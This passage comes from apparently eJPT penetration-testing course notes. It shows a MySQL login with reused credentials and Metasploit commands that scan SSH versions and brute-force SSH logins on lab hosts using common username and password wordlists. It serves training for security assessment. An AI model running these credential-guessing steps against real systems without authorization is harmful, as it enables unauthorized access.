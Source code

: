 * Login to databases with credentials obtained in previous.

```bash
mysql -h 192.60.96.3 -p
```

### [**SSH**](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/ssh-enum)

> 🔬 [Metasploit - SSH Login](https://attackdefense.com/challengedetails?cid=1526)

```bash
msf5 > setg RHOSTS 192.169.71.3
msf5 > setg RHOST 192.169.71.3
msf5 > workspace -a SSH_ENUM
```

> **`auxiliary/scanner/ssh/ssh_version`**

<pre class="language-bash"><code class="lang-bash">msf5 > search type:auxiliary name:ssh
<strong>msf5 > auxiliary/scanner/ssh/ssh_version
</strong>msf5 > show options
msf5 > run
</code></pre>

<figure><img src="../../../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

> **`auxiliary/scanner/ssh/ssh_login`**

```bash
msf5 > auxiliary/scanner/ssh/ssh_login
msf5 > show options
msf5 > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
msf5 > set STOP_ON_SUCCESS true
msf5 > set VERBOSE true
msf5 > run
```
